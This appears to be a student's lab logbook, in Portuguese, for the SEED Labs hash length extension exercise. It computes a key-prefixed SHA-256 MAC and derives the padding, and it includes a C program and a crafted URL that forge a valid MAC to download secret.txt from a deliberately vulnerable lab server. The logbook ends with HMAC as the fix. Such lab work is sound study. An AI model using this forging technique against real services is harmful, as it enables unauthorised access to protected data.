








# LOGBOOK 10 – Hash Length Extension Attack Lab

## 1. Objetivo
Explorar a fraqueza de uma construção insegura de MAC (`SHA256(key || ":" || mensagem)`) para realizar um length extension attack e forjar um MAC válido para um pedido estendido, sem conhecer a chave secreta.

<!-- Secção teórica consolidada será distribuída nas tarefas -->
## 2. Setup do Ambiente

<!-- Mantido como estava, apenas renumerado -->
- Construção dos containers:
```bash
dcbuild  
dcup    # inicia containers em background

- Verificação dos containers ativos:
```bash
dockps
# Exemplo observado:
# 5602d4d25794  www-10.9.0.80
- Entrada no container do servidor:
```bash
docksh 56  # ID abreviado
- Confirmação de resolução do domínio (em /etc/hosts):
```

Observação: O domínio aponta para o container que corre a aplicação Flask. 


## 3. Tarefa 1 – Pedido autenticado honesto
####  (Integridade vs Autenticidade & Construção insegura)
Hashes (`H(m)`) só asseguram integridade. Aqui precisamos de autenticidade, feita com um segredo (`key`). O servidor usa o esquema vulnerável `SHA256(key || ":" || mensagem)` (prefix-MAC), expondo o estado final Merkle–Damgård.
### 3.1 Obtenção de `uid` e `key`
No container:
```bash
cd /app/LabHome
cat key.txt
```
Conteúdo:
```
1001:123456
1002:983abe
1003:793zye
1004:88zjxc
1005:xciujk
```
Par escolhido: `uid=1001`, `key=123456`.
As chaves em `key.txt` são o segredo partilhado (cliente/servidor) usado para calcular e validar o MAC.



### 3.2 Mensagem a autenticar (R)
Esta é a parte da mensagem que, após prefixo da chave e separador, entra na função insegura: `SHA256(key || ":" || R)`.
Formato dos parâmetros (sem `mac`):
```
myname=FilipeCamacho&uid=1001&lstcmd=1
```
Construção da string usada no hash (prefix key + ":"):
```
123456:myname=FilipeCamacho&uid=1001&lstcmd=1
```
Isto implementa um esquema de "key prefix" vulnerável a length extension.

### 3.3 Cálculo do MAC
Comando:
```bash
echo -n "123456:myname=FilipeCamacho&uid=1001&lstcmd=1" | sha256sum
```
Resultado:
```
5fd665c38a0405347d8c95f8d3d8c48bb925fd82b50e84c7444d4c073d06e6c7  -
```
MAC (64 hex): `5fd665c38a0405347d8c95f8d3d8c48bb925fd82b50e84c7444d4c073d06e6c7`.
`echo -n` evita newline final que alteraria o digest.



### 3.4 URL de listagem
```
http://www.seedlab-hashlen.com/?myname=FilipeCamacho&uid=1001&lstcmd=1&mac=5fd665c38a0405347d8c95f8d3d8c48bb925fd82b50e84c7444d4c073d06e6c7
```
Resposta: listagem de `LabHome` (ex.: `key.txt`, `secret.txt`). 

Verificação: servidor obtém chave via `uid`, reconstrói `123456:myname=...&lstcmd=1`, calcula SHA256 e compara.



### 3.5 Download honesto (antes de avançar, apesar de não ser pedido, tentamos descobrir o conteúdo da secret.txt) 
Nova mensagem R:
```
myname=FilipeCamacho&uid=1001&lstcmd=1&download=secret.txt
```
String autenticada:
```
123456:myname=FilipeCamacho&uid=1001&lstcmd=1&download=secret.txt
```
Comando:
```bash
echo -n "123456:myname=FilipeCamacho&uid=1001&lstcmd=1&download=secret.txt" | sha256sum
```
MAC obtido:
```
8e3f566e113a396ff6233bda8905052310e6d91f48dae678081ef957e9182c97  -
```



URL:
```
http://www.seedlab-hashlen.com/?myname=FilipeCamacho&uid=1001&lstcmd=1&download=secret.txt&mac=8e3f566e113a396ff6233bda8905052310e6d91f48dae678081ef957e9182c97
```


Resultado: conteúdo de `secret.txt` obtido legitimamente (baseline antes do ataque).

## 4. Tarefa 2 – Cálculo do Padding
#### Papel do Padding
Precisamos do padding exato porque o MAC publicado já inclui processamento de `key":"R` + padding. Sem reproduzir o mesmo comprimento em bits e alinhamento, o estado interno (digest) não pode ser reutilizado.
### 4.1 Esquema SHA-256
Padding: `0x80` + `0x00` repetidos até comprimento ≡ 56 (mod 64) + 8 bytes de comprimento (big-endian) em bits.

### 4.2 Comprimento da mensagem M
Mensagem M (inclui chave e separador):
```
123456:myname=FilipeCamacho&uid=1001&lstcmd=1
```
Contagem:
```bash
echo -n "123456:myname=FilipeCamacho&uid=1001&lstcmd=1" | wc -c
# 45
```
L = 45 bytes; L_bits = 45 * 8 = 360 = 0x0000000000000168.



### 4.3 Número de zeros
`pad_zero = 64 - (L + 1 + 8) = 64 - (45 + 1 + 8) = 10`.

### 4.4 Padding completo (bytes)
Separado:
```
0x80
10 × 0x00
00 00 00 00 00 00 01 68   (length em bits, big-endian)
```
Forma compacta:
```
\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x68
```
### 4.5 Padding URL-encoded
Cada byte `\xAB` → `%AB`:
```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%68
```
Observação: O servidor decodifica `%XX` para bytes originais e preserva alinhamento para a função de hash.

## 5. Tarefa 3 – Length Extension Attack

Em SHA-256 (Merkle–Damgård) o digest final é o estado interno depois de todos os blocos. Conhecendo esse estado e o tamanho da mensagem original (incluindo chave) podemos continuar a compressão com dados adicionais.
### 5.1 Ideia
Sabendo `MAC(M)` e o tamanho de `M` (para recomputar padding), continuamos a compressão e obtemos `MAC(M || padding || extra)` sem a chave: estado interno reutilizado.

### 5.2 MAC original em palavras de 32 bits
`MAC(M) = 5fd665c38a0405347d8c95f8d3d8c48bb925fd82b50e84c7444d4c073d06e6c7`
Divisão (8 × 4 bytes):
```
5fd665c3
8a040534
7d8c95f8
d3d8c48b
b925fd82
b50e84c7
444d4c07
3d06e6c7
```
Cada grupo → `htole32(0xXXXXXXXX)` no contexto OpenSSL.

### 5.3 Código `length_ext.c`
```c
#include <stdio.h>
#include <string.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(void) {
	int i; unsigned char buffer[SHA256_DIGEST_LENGTH]; SHA256_CTX c;
	SHA256_Init(&c);
	// Simula 1 bloco (M + padding) já processado
	for (i = 0; i < 64; i++) SHA256_Update(&c, "*", 1);
	// Estado interno = MAC(M)
	c.h[0] = htole32(0x5fd665c3);
	c.h[1] = htole32(0x8a040534);
	c.h[2] = htole32(0x7d8c95f8);
	c.h[3] = htole32(0xd3d8c48b);
	c.h[4] = htole32(0xb925fd82);
	c.h[5] = htole32(0xb50e84c7);
	c.h[6] = htole32(0x444d4c07);
	c.h[7] = htole32(0x3d06e6c7);
	// Mensagem extra
	const char *extra = "&download=secret.txt";
	SHA256_Update(&c, extra, strlen(extra));
	SHA256_Final(buffer, &c);
	for (i = 0; i < SHA256_DIGEST_LENGTH; i++) printf("%02x", buffer[i]);
	printf("\n");
	return 0;
}
```
Compilação / execução:
```bash
gcc length_ext.c -o length_ext -lcrypto
./length_ext
```
Novo MAC obtido (estado após extensão):
```
6cb1527d3b9bd8c0294ce33cffd8d9ec00891b817cbd678b08dfecb9ea30bd61
```


### 5.4 URL malicioso final
```
http://www.seedlab-hashlen.com/?myname=FilipeCamacho&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%68&download=secret.txt&mac=6cb1527d3b9bd8c0294ce33cffd8d9ec00891b817cbd678b08dfecb9ea30bd61
```
Estrutura: parâmetros originais + padding URL-encoded + parâmetro extra + MAC forjado. Resultado: servidor aceita e devolve conteúdo de `secret.txt`.



### 5.5 Explicação da viabilidade
Como o servidor usa `SHA256(key || ":" || R)` diretamente, o MAC publicado é o estado interno final após processar `key":"R` (com padding). Conhecendo tamanho total, é possível reconstruir alinhamento e continuar compressão com blocos adicionais.

## 6. Conclusões
### Mitigação com HMAC
HMAC: `H((k' ⊕ opad) || H((k' ⊕ ipad) || m))` evita reutilização do estado interno simples — length extension deixa de ser aplicável.
### Risco Prático

- A construção ingênua `SHA256(key || mensagem)` é vulnerável a length extension quando o MAC é exposto.
- Ataque explora Merkle–Damgård: MAC fornece estado interno final que pode ser usado como ponto de partida para mais blocos.
- Padding correto é crítico; erro invalida o MAC forjado.

